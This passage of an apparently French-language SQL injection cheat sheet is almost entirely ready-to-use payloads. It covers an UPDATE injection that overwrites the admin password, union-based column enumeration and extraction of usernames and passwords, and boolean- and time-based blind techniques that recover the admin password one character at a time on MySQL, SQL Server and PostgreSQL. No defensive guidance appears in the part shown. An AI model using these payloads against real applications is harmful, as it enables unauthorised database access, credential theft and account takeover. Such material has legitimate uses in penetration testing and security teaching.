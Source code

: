 ```sql
-- Dans un UPDATE
', password='newpass' WHERE username='admin'--
```

## 🎯 Types d'Injections SQL

### Union-based SQL Injection
```sql
-- Déterminer le nombre de colonnes
' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--
-- (jusqu'à erreur)

-- Ou avec NULL
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL--

-- Identifier les colonnes affichées
' UNION SELECT 1,2,3--
' UNION SELECT 'a','b','c'--

-- Extraction de données
' UNION SELECT username,password,NULL FROM users--
' UNION SELECT table_name,NULL,NULL FROM information_schema.tables--
```

### Boolean-based Blind SQL Injection
```sql
-- Test de base
' AND 1=1--     (page normale)
' AND 1=2--     (page différente)

-- Test de longueur
' AND (SELECT LENGTH(password) FROM users WHERE username='admin')=5--
' AND (SELECT LENGTH(password) FROM users WHERE username='admin')=6--

-- Extraction caractère par caractère
' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='admin')='a'--
' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='admin')='b'--

-- Avec ASCII
' AND (SELECT ASCII(SUBSTRING(password,1,1)) FROM users WHERE username='admin')=97--
```

### Time-based Blind SQL Injection
```sql
-- Tests de délai
' AND SLEEP(5)--                    (MySQL)
' AND WAITFOR DELAY '00:00:05'--    (SQL Server)
' AND pg_sleep(5)--                 (PostgreSQL)

-- Extraction conditionnelle avec délai
' AND IF((SELECT SUBSTRING(password,1,1) FROM users WHERE username='admin')='a',SLEEP(5),0)--

-- PostgreSQL
' AND CASE WHEN (SELECT SUBSTRING(password,1,1) FROM users WHERE username='admin')='a' THEN pg_sleep(5) ELSE pg_sleep(0) END--
```
